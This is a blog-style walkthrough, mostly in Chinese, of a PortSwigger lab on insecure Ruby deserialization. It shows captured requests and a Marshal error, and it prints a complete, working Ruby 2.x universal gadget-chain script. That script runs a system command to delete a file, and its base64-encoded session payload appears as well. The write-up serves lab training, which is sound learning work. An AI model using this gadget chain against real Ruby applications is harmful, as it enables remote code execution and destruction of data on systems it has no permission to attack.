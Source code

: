 ```yaml
---
layout: post
title: "Exploiting Ruby deserialization using a documented gadget chain"
description: ""
date: 2023-07-11
categories:
  - PortSwigger_Lab
  - PortSwigger_Insecure_Deserialization
author: ""
tags: ['PortSwigger_Lab', 'Insecure_Deserialization']
---
```







# Exploiting Ruby deserialization using a documented gadget chain


教學:
http://m.bubuko.com/infodetail-3734787.html

Ruby2.X 远程代码执行漏洞分析之反序列化gadget链
https://www.anquanke.com/post/id/163962


```

This lab uses a serialization-based session mechanism and the Ruby on Rails framework. There are documented exploits that enable remote code execution via a gadget chain in this framework.

To solve the lab, find a documented exploit and adapt it to create a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the `morale.txt` file from Carlos's home directory.

#### Hint

Try searching for "ruby [deserialization](https://portswigger.net/web-security/deserialization) gadget chain" online.



本實驗使用基於序列化的會話機制和 Ruby on Rails 框架。 有記錄的漏洞利用可以通過該框架中的小工具鏈實現遠程代碼執行。

要解決實驗室問題，請找到一個記錄在案的漏洞利用並對其進行調整，以創建一個包含遠程代碼執行負載的惡意序列化對象。 然後，將此對像傳遞到網站以從 Carlos 的主目錄中刪除morale.txt 文件。
暗示

嘗試在線搜索“ruby 反序列化小工具鏈”。




```

wiener:peter


login -> update emial -> 抓包
```http

POST /my-account/change-email HTTP/1.1
Host: 0aec000903081d7ec0cc06eb00bd004b.web-security-academy.net
Cookie: session=BAhvOglVc2VyBzoOQHVzZXJuYW1lSSILd2llbmVyBjoGRUY6EkBhY2Nlc3NfdG9rZW5JIiVlM2dlZTVtM3V2YW1qa3k5dWp0bnhnNjZ4MjhtN3Q5eQY7B0YK
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: https://0aec000903081d7ec0cc06eb00bd004b.web-security-academy.net
Referer: https://0aec000903081d7ec0cc06eb00bd004b.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

email=333%40333

```

不知道是啥語言的序列化
```

o:	User:@usernameI"wiener:EF:@access_tokenI"%e3gee5m3uvamjky9ujtnxg66x28m7t9y;F


```


cookie亂改123:
```http

POST /my-account/change-email HTTP/1.1
Host: 0a2700b1040a4c5dc04e1cf800c3008f.web-security-academy.net
Cookie: session=123
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: https://0a2700b1040a4c5dc04e1cf800c3008f.web-security-academy.net
Referer: https://0a2700b1040a4c5dc04e1cf800c3008f.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

email=333%40333

```


報錯ruby語言
```
index.rb:13:in `load&apos;: incompatible marshal file format (can&apos;t be read) (TypeError)
	format version 4.8 required; 63.109 given
	from -e:13:in `&lt;main&gt;&apos;
```

拿去google查到2.x版本的報錯
https://github.com/rubygems/rubygems/issues/1589







## RUBY 2.X UNIVERSAL RCE DESERIALIZATION GADGET CHAIN

A universal gadget chain to achieve arbitrary code execution in Ruby 2.x
https://www.elttam.com/blog/ruby-deserialization/

這邊我踩了一個坑，原因未知，有些教學的方法，我拿到的payload 跟它一樣，但我pass不了。

我是看了這影片才成功的。
https://www.youtube.com/watch?v=phGuYUM7BMw
payload 跟其它教學的不一樣。

改一下命令:
rm /home/carlos/morale.txt

```ruby
#! /usr/bin/ruby

require 'base64'


Gem::SpecFetcher
Gem::Installer

# prevent the payload from running when we Marshal.dump it
module Gem
  class Requirement
    def marshal_dump
      [@requirements]
    end
  end
end

wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
#puts payload.inspect
#puts Marshal.load(payload)

puts Base64.encode64(payload)

```


這裡有換行字元所以要幫它瘦身。
```
BAhbCGMVR2VtOjpTcGVjRmV0Y2hlcmMTR2VtOjpJbnN0YWxsZXJVOhVHZW06
OlJlcXVpcmVtZW50WwZvOhxHZW06OlBhY2thZ2U6OlRhclJlYWRlcgY6CEBp
b286FE5ldDo6QnVmZmVyZWRJTwc7B286I0dlbTo6UGFja2FnZTo6VGFyUmVh
ZGVyOjpFbnRyeQc6CkByZWFkaQA6DEBoZWFkZXJJIghhYWEGOgZFVDoSQGRl
YnVnX291dHB1dG86Fk5ldDo6V3JpdGVBZGFwdGVyBzoMQHNvY2tldG86FEdl
bTo6UmVxdWVzdFNldAc6CkBzZXRzbzsOBzsPbQtLZXJuZWw6D0BtZXRob2Rf
aWQ6C3N5c3RlbToNQGdpdF9zZXRJIh9ybSAvaG9tZS9jYXJsb3MvbW9yYWxl
LnR4dAY7DFQ7EjoMcmVzb2x2ZQ==

```

可以用老方法，但最快的方法就是直接拿去google 上面，然後它會trim 掉空格在複製
firefox 不行

```
BAhbCGMVR2VtOjpTcGVjRmV0Y2hlcmMTR2VtOjpJbnN0YWxsZXJVOhVHZW06OlJlcXVpcmVtZW50WwZvOhxHZW06OlBhY2thZ2U6OlRhclJlYWRlcgY6CEBpb286FE5ldDo6QnVmZmVyZWRJTwc7B286I0dlbTo6UGFja2FnZTo6VGFyUmVhZGVyOjpFbnRyeQc6CkByZWFkaQA6DEBoZWFkZXJJIghhYWEGOgZFVDoSQGRlYnVnX291dHB1dG86Fk5ldDo6V3JpdGVBZGFwdGVyBzoMQHNvY2tldG86FEdlbTo6UmVxdWVzdFNldAc6CkBzZXRzbzsOBzsPbQtLZXJuZWw6D0BtZXRob2RfaWQ6C3N5c3RlbToNQGdpdF9zZXRJIh9ybSAvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dAY7DFQ7EjoMcmVzb2x2ZQ==

```

關於要不要url encode 其實不用，因為url 是沒有換行的 所以它也是encode 把換行拿掉。


你直接提交這個就可以成功了。



